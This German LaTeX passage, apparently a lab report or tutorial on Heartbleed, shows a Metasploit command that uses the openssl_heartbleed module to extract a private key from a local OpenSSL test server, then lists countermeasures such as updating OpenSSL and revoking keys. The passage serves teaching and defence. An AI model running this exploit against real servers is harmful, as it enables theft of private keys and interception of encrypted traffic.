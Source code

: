 Nun wird versucht, mittels Metasploit den Private Key des Servers auszulesen. Üblicherweise wird Metasploit als selbstständige Konsole gestartet, auf welcher einzelne Befehle zur Konfiguration des Angriffs nacheinander eingegeben werden. Diese Befehle werden stattdessen hier mit  direkt als Parameter angegeben.

\begin{lstlisting}[caption={Metasploit-Plugin zum Angriff auf den OpenSSL-Server},label=lst:metasploit_heartbleed]
msfconsole -x '
	# Lade das Heartbleed-Plugin
	use auxiliary/scanner/ssl/openssl_heartbleed;
	# Setze den Modus auf Gewinnung des Private Keys
	set action KEYS;
	# IP des Zielservers
	set RHOSTS 127.0.0.1;
	# Port des SSL-Dienstes
	set RPORT 8989;
	# erweitere Ausgabe
	set verbose true;
	# Starte den Exploit
	exploit;
	# Beende Metasploit
	exit;
'
\end{lstlisting}


Nach Start der Metasploit-Konsole -- was einige Zeit in Anspruch nehmen kann -- wird der OpenSSL-Server automatisiert angegriffen und bei Erfolg der Private Key auf der Konsole ausgegeben. Dieser sollte identisch zum zuvor vom Opfer erzeugten Private Key sein, der in dessen Konsole ausgegeben worden ist.




\section{Gegenmaßnahmen}
Veraltete OpenSSL-Bibliotheken sollten aktualisiert werden. Sicher vor Heartbleed ist OpenSSL ab Version 1.0.1g, aktuell ist die Version 1.1.0c\footnote{Stand Dezember 2016}. Zudem sollten alle privaten Schlüssel des Servers als kompromittiert betrachtet, widerrufen\footnote{Stichwort Certificate Revocation List} und ersetzt werden.
